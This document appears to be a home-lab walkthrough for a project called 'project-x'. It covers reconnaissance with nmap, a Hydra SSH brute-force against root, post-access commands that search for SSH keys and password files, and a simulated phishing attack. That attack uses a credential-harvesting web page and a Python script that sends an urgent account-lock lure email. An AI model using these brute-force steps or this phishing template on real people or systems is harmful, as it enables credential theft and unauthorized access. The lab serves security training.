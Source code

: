 # Cyber Attack - Initial Access to Breached
---
## Setup Attacker machine
- Name our machine ``` project-x-attacker ```.
- Set IP address to ``` 10.0.0.5 ```.

## The Concept of Reconnaissance
- Also referred to as 'recon'. This is first phase of a cyber-attack where attackers gather information about their target to identify vulnerabilities they can exploit. This phase is all about preparation and involves collecting as much data as possible about the target's systems, network, employees, or infrastructure without triggering alarms.

## Scanning
- Nmap (Network Mapper) is a powerful open-source tool for network discovery and security auditing. It finds hosts, open ports, running services and versions, OS guesses, and can run scripts to automate checks.
- To discover which services are running and identify their versions on the target, we can execute nmap -sV -p1-1000 10.0.0.8, which will probe TCP ports 1 through 1000 on 10.0.0.8 and perform service/version detection

## Brute-force attack
- Hydra: Password-cracking tool used for brute-force attacks on various network services. It automates the process of attempting multiple username and password combinations to gain unauthorized access to systems. We can initiate a brute force and use a wordlists file, such as rockyou.txt to see if there are any matches.
``` hydra -l root -P /usr/share/wordlists/rockyou.txt ssh://10.0.0.8 ```
- If success, we'll have the ```root``` password so that we can connect to this machine through ssh.
## Initial Access
Attackers establish a foothold in the target’s environment. This is the entry point, achieved by exploiting vulnerabilities, phishing, using compromised credentials, or exploiting misconfigurations. The goal is to gain access to the target network while avoiding detection, setting the stage for further malicious activities.
- Some command to investigate the system when we've owned it by brute-force:
```
cat /etc/os-release
hostname
ip a
netstat -tuln (Inspect network services)
ps aux, top
ls -la /home (check user home directories)
ls -la /etc (check configuration files)
ls -la ~/.ssh/ (view SSH keys and known hosts)
find / -name “password” 2>/dev/null (search for any files containing the password string)
```

## Phishing
- Using deceptive methods like fake emails, texts, or websites that appear legitimate but are designed to steal information for financial fraud
or identity theft. We are going to simulate it
Navigate to the /var/www/html folder, this is where default websites can be provisioned
- Download the project files: ```git clone https://github.com/collinsmc23/projectsecurity-e101```, which gain credentials from a form if we perform a login function.
- Make a new logging file to log the captured credentials, set permissions on this file:
```
sudo touch /var/www/html/creds.log
sudo chmod 666 /var/www/html/creds.log
```

- Start the apache2 webservice: ``` sudo service apache2 start ```
- We can craft a small Python script that simulates a phishing email using smtplib and email.message in order to demonstrate how attackers craft deceptive messages and to evaluate user awareness and defensive control
```
import smtplib
from email.message import EmailMessage

msg = EmailMessage()
msg["Subject"] = "Update Password!"
msg["From"] = "project-x-hrteam@corp.project-x-dc.com"
msg["To"] = "janed@linux-client"

# Plain text version (fallback)
msg.set_content("Hey Jane! This is HR, make sure to update your password info.")

# HTML version
html_content = """
<html>
  <body>
    <p>Hey Jane!<br>
We noticed an unusual login attempt on your account, and for your security, we have temporarily locked access. To restore access, please verify your account credentials within the next 24 hours. Failure to do so may result in permanent restrictions on your account.
To verify your credentials, please click the link below:</p>
<a href='http://10.0.0.50'>Verify My Account</a>
<p>For assistance, please contact our support team at support@company.com.
Thank you for your prompt attention to this matter.
Best regards,
ProjectX Security Team
    </p>
  </body>
</html>
"""

msg.add_alternative(html_content, subtype='html')

# Send the email
with smtplib.SMTP("localhost", 1025) as server:
    server.send_message(msg)
```

- Run it and go to [project-x-linux-client], we'll see this email.
<img width="815" height="623" alt="image" src="https://github.com/user-attachments/assets/4e64d901-7c63-46d3-8ec7-79b1dc49cf5b" />

- If we open the link and verify the username and password, the attacker can see them.
  <img width="451" height="337" alt="image" src="https://github.com/user-attachments/assets/58f565a7-1951-49cf-87a8-d2145f195697" />
- That's how we can leverage phishing email to gain usernames and credentials.
<img width="529" height="89" alt="image" src="https://github.com/user-attachments/assets/f1e36604-7542-495a-ba81-25f82d4c0b5d" />

<img width="580" height="279" alt="image" src="https://github.com/user-attachments/assets/69894ebe-b0f9-431c-96a1-02c5074d48fb" />



